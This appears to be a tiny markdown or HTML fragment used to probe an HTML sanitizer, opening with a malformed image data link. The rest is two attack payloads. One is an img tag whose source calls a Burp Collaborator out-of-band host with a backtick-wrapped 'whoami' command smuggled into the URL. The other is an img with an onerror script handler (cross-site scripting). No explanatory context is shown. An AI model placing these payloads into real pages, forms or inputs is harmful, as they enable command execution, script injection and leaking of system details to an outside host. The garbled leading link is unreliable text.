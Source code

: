 <img src="http://ucayd0dkf7w9x7wi9iujh4hzlqrgf5.burpcollaborator.net?`whoami`"></img>
<img style="max-width: 100%;" src="x" onerror="print(1)">
